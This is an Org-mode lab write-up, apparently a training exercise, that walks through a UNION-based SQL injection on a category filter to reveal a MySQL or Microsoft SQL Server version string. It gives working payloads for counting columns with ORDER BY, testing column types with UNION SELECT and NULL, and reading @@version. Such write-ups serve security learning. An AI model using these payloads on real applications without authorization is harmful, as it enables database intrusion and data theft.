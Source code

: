 #+title: SQL injection attack, querying the database type and version on MySQL and Microsoft
* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#steps][Steps]]
  - [[#step-1][Step 1]]
  - [[#step-2][Step 2]]
- [[#solution][Solution]]

* About
sql injection on ~catergory~ filter

** End Goal
Display database version string

* Steps
** Step 1
Find out how many columns are there
#+begin_src sql
'ORDER BY 1 --
#+end_src
#+begin_quote
This will give error because in this database system '--' this comment syntax is invalid
We can use another syntax for the comment '#'
#+end_quote

So query will be
#+begin_src sql
'ORDER BY 1 #
#+end_src

Similarly check out until we get error
#+begin_quote
Column will be 2
#+end_quote

** Step 2
Check the data type of those 2 columns
#+begin_src sql
'UNION SELECT 'abc', NULL #
#+end_src
And so on
#+begin_quote
Both columns will be string data type
#+end_quote

* Solution
To find out version for database of Microsoft and Mysql we use ~SELECT @@version~

#+begin_src sql
'UNION SELECT @@version, NULL #
#+end_src
